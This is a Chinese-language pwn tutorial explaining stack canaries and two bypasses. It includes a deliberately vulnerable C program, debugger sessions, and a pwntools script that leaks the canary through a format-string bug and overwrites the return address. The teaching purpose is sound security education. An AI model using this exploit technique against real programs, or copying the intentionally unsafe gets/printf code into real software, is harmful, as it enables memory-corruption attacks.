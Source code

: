 ```yaml
---
title: 'Canaries'
date: '2023-08-21'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '防御缓冲区溢出'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure toHeading={3} />
</div>

Canary 的意思是金丝雀，源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。

Canary 的设计非常简单——在函数的开头，一个随机值被放置在栈上，作为检测用的保护值。在程序执行 `ret` 之前，程序会检查该值是否被修改过：如果没有被改变，则说明没有发生缓冲区溢出；反之，说明发生了栈溢出，程序会中止。

这种通过检查保护值的手段，可以缓解栈溢出的攻击行为。因为保护值的位置在保存的基地址和返回地址之间，是栈溢出的常见目标位置。攻击者无法跳过保护值直接修改返回地址等关键数据。这样简单有效的检测机制，可以大大增强程序的安全性。

<Note>
  在 Linux 上，Canary 设计为以 `\x00` 结尾。本意是为了保证 Canary 可以截断字符串。如果你在用输出函数的时候处理错了字符串，导致打印的字符串超出了 Canary 的位置，这个 `\x00` 可以终止字符串的输出，防止越界访问 Canary 的值；同时空字节 `\x00` 也会中断字符串打印，不会错误打印后面栈上的内容。但是这也使它很容易被识别出来：攻击者可以通过输出一个可能的 Canary 值，并检验末尾是否为 `\x00` 来判断真正的Canary 是多少。
</Note>

## 0x01 绕过 Canary

有两种常用的方法可以绕过 Canary。

### 1x01 泄漏 Canary

获取 Canary 的值的方法因程序而异，没有固定的万能方式。但主要的目的是获取它的值。最简单的方法是，如果程序存在格式化字符串漏洞的话，可以利用这个漏洞来泄漏栈上的内容。因为 Canary 和其它局部变量一样，位于栈上。

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[64];

  puts("Leak me");
  gets(buffer);

  printf(buffer);
  puts("");

  puts("Overflow me");
  gets(buffer);
}

int main() {
  vuln();
}

void win() {
  puts("You won!");
}
```

#### 2x01 32-bit

LINK

首先，让我们检查一下是否有 Canary。

```
$ pwn checksec vuln-32
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我们需要计算 Canary 所在的偏移量，为此我们将使用 pwndbg。

```
$ pwndbg vuln-32

$ b *0x080491d7
$ r
Leak me
%p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x00007025
0xffffd700:	0xf7ffcfd8	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0x437aa500
```

最后一个输出的值是 Canary。我们可以从以下几点来判断：

1. 它距离缓冲区开始的地址约 64 字节，这很接近缓冲区末尾的位置。
2. 它的末尾是 `\x00` ，和以 `ff` 和 `f7` 开头的 libc 库地址不同，看起来非常随机。

从缓冲区开始，我们大约输出了 24 个地址，然后可以找到 Canary 的值。所以我们可以在它前后各输出一个地址，来确定 Canary 的位置。

```
$ ./vuln-32
Leak me
%23$p %24$p %25$p
0x4c1e00 (nil) 0xf7e43e34
```

似乎是 `%23$p`。

*注：Canary 对于每个新进程都是随机的，因此不会相同。*

现在让我们用 pwntools 自动抓取 Canary：

```python:canary.py showLineNumbers
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```
$ python exp.py
[+] Starting local process './vuln-32': pid 10042
[*] Leak me
[+] Canary: 0x143e3e00
```

现在剩下的就是计算出 Canary 之前的偏移量，然后计算出 Canary 之后到返回地址的偏移量。

```
$ pwndbg vuln-32
$ b *0x080491d7
$ r
Leak me
%23$p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x24333225
0xffffd700:	0xf7ff0070	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0xf5dafb00
```

我们看到 Canary 位于 `0xffffd73c`。稍后，假设返回地址位于 `0xffffd74c`。让我们在下一个 `gets()` 之后中断并检查我们用什么值覆盖它。

```
$ b *0x0804920f
$ c
Continuing.
0x915d8a00
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0804920f in vuln ()
[...]
$ x/20wx 0xffffd73c
0xffffd73c:	0x61616171	0x61616172	0x61616173	0x61616174
0xffffd74c:	0x61616175	0x61616176	0x61616177	0x61616178
```

现在，我们可以检查 Canary 和 EIP 偏移量：

```
$ cyclic -l 0x61616171
Finding cyclic pattern of 4 bytes: b'qaaa' (hex: 0x71616161)
Found at offset 64
$ cyclic -l 0x61616175
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

返回地址是 Canary 开始后的 16 个字节，因此是 Canary 后的 12 个字节。

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # 用 Canary 值覆盖 Canary 以不触发检测
payload += b'A' * 12    # Padding 到返回地址
payload += p32(0x08049245)

p.sendline(payload)

p.interactive()
```

#### 2x02 64-bit

方法同上，只是变成了 64-bit。

<Note>
只要注意：在 64-bit 中，字符串首先进入相关寄存器，每个地址可以容纳 8 字节，因此偏移量可能不同。
</Note>

LINK

### 1x02 暴力破解 Canary

这在 32-bit 上是可能的，有时也是不可避免的。但在 64-bit 上这种方法是不可行的。因为 32-bit 的 Canary 值通常为 4 字节，爆破遍历空间较小，可行性高；但 64-bit 扩展到 8 字节，遍历空间极大，爆破难度大幅提高。

总体思路是通过大量运行目标进程，每次使用随机 Canary 值来碰撞正确的 Canary 值。但需要明确的指示来判断爆破是否成功，例如出现已知明文 `flag{`。这需要大量时间。

